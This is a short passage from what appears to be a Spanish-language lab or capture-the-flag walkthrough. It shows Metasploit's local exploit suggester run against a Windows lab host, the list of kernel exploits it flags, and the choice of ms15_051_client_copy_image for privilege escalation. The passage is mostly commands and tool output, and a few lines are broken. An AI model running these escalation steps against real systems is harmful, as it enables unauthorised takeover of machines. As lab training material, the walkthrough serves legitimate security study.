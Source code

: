 ```shell-session
msf6 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1

SESSION => 1


msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 34 exploit checks are being tried...
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > 
```


Las opciones son 
``
```

[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

Tenemos varias opciones, pero tras probarlas individualmente solo se obtiene una root de shell con el módulo "ms15_051_client_copy_image".
Utilizaremos pues ese módulo:
```
use exploit/windows/local/ms15_051_client_copy_image
```
